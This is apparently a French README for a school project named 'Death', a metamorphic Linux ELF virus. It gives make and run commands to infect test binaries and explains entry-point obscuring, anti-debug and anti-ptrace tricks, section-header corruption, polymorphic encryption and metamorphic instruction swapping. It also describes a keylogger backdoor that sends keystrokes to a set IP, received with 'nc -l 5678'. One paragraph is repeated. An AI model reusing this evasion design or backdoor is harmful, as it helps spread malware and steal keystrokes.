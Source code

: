 # Death

[@arobion][arobion]

```
Sommaire:
  I	  - Usage
  II	- Description
  III	- Fonctionement
          - Infection
           - Entry-Point Obscuring (EPO) technique
           - Insertion
          - Obfuscation
            - Anti debug
            - Anti breackpoint
            - Anti ptrace
            - Anti step by step
            - Section header obfuscation
            - Verification si un anti-virus
            - Close EPO
            - Polymorphisme
            - Metamorphisme
          - Backdoor
```
> ATTENTION : Ce projet est uniquement à **but pedagogique**.

## I - Usage

```shell
$> make
$> sh ./scripts/create_dir.sh #crée le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> sh ./scripts/check.sh	#verifie si il y a des binaires infecté dans /tmp/test1 et /tmp/test2
$> sh ./scripts/infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes à partir de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#être en root et lancer ./infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant à realiser un packer de elf64
- **FAMINE**: Projet consistant à crée un virus basique qui à pour but de simplement laisser une trace dans certains fichiers contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à crée un virus obfusqué
- **WAR**: Projet consistant à crée un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 ```call``` valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la ```GOT```.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section ```.text``` et le reste apres le ```.bss```.

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Lors du lancement de la routine d'infection, nous allons effectuer un ```hash``` de la partie de notre code qui permet le dechiffrement du ```payload```, puis nous allons utiliser ce ```hash``` en tant que clé de déchiffrement du ```payload```, qui, à la fin du déchiffrement aura une certaine valeure à laquelle nous ajoutons une autre valeure ( determinée lors de l'infection) qui correspond a l'adresse du debut du ```payload```.
      
      Ainsi, l'insertion d'un breakpoint corromp le ```hash``` ce qui entraine une mauvaise clé de déchiffremment ainsi qu'une mauvaise adresse du ```payload```.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous créons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du père et récupérer cette valeur.
      
      Ensuite dans l'enfant nous allons executer la partie déchiffrement, et nous allons faire ```jump``` le parent à l'adresse obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grâce à l'insctrution ```rdtsc```.
      
      Vérification du ```RFLAGS``` ```TF``` grâce à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'informations sur le binaire infecté.
      
  - **Verification de certains processus**:
  
      Nous recherchons si il y a un process avec le nom ```inhibitor```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Après le premier passage dans notre virus nous refermons les ```EPO``` pour ne plus repasser dans notre virus jusqu'à la fin de l'exécution du programme.
  
  #### Polymorphisme:
  Notre polymorphisme est basé sur un ```fingerprint``` unique, généré lors de l'infection du fichier.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Grâce à ce fingerprint, nous obtenons des clés unique, nous permettant d'effectuer un chiffrement du ```payload``` different à chaque infection.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Chaque fonction du ```Payload``` est chiffrée grace à une clé unique issue d'un assemblage du fingerprint et du hash de cette fonction. 
  
  Lors de l'execution du ```Payload```, chaque fonction est ainsi déchiffrée avant son execution, puis rechiffrée des la fin de son execution, ce qui permet d'assurer une bonne protection contre l'analye dynamique.
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des ```placeholder```.
   Nous les remplacons par différentes instructions, en fonction d'un motif généré à partir du ```fingerprint```.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoie les touches sur une adresse IP renseignée dans ```./srcs_s/anti_data.s``` sur le port ```5678```.




[arobion]: <https://github.com/arobion>

